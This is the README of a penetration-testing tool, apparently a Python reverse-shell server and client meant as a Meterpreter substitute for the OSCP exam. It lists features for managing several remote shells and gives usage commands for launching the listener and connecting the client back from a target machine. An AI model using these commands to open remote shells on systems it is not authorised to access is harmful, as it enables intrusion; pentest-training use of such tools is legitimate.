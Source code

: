 # Pachirisu-Script
This is a penetration testing tool for use with OSCP.

## Table of Contents
- [Introduction](#introduction)
- [Features](#features)
- [Usage](#usage)
- [Demo](#demo)
- [Supported OS](#supported-os)
- [Caveats](#caveats)
- [Todo](#todo)

## Introduction
This is a tool to be used instead of Meterpreter at OffSec Certified Professional (OSCP). Meterpreter can only be used once during an exam. However, the reverse shell using nc.exe is difficult to use. So I decided to create a reverse shell and receiver with some of the functionality of Meterpreter for my own use.

I like Pachirisu from Pokemon so I named my tool after it.

## Features
- Manage multiple shells from a single prompt.
- Works on both Windows and Linux.
- Easily switch between different connected clients.
- Simple command execution on remote systems.
- No need for additional tools beyond Python3.

## Usage

1. **Server Setup:**
   - Run the `server.py` script to start listening for incoming connections.
   - You can specify the IP and port to listen on as arguments. If not specified, it defaults to `0.0.0.0:9999`.
     ```sh
     python server.py [listen_ip] [listen_port]
     ```
   - Example:
     ```sh
     python server.py 0.0.0.0 9999
     ```

2. **Client Setup:**
   - Run the `client.py` script on the target machine to connect back to the server.
   - You can specify the target IP and port as arguments. If not specified, it defaults to `127.0.0.1:9999`.
     ```sh
     python client.py [target_ip] [target_port]
     ```
   - Example:
     ```sh
     python client.py 192.168.1.10 9999
     ```

3. **Interacting with Clients:**
   - Once a client is connected, you can select the client by its number from the list of active connections.
   - Enter commands to be executed on the selected remote machine.
   - To switch between different clients without disconnecting, use the `quit pachirisu` command to return to the client selection menu.


## Demo

## Supported OS
- Windows 11
- Linux
with Python3 installed.

## Caveats
- Ensure network connectivity between the server and clients.
- Proper firewall and network settings must be configured to allow for reverse shell connections.
- Use responsibly and only on systems you have permission to test.

## Todo
- Development in C++ so that it can be used on machines where Python is not installed.
- Add encryption to the communication between server and client for enhanced security.
- Create a more user-friendly interface for managing multiple connections.
- Improve error handling and stability.
- Add logging of sessions and commands executed.
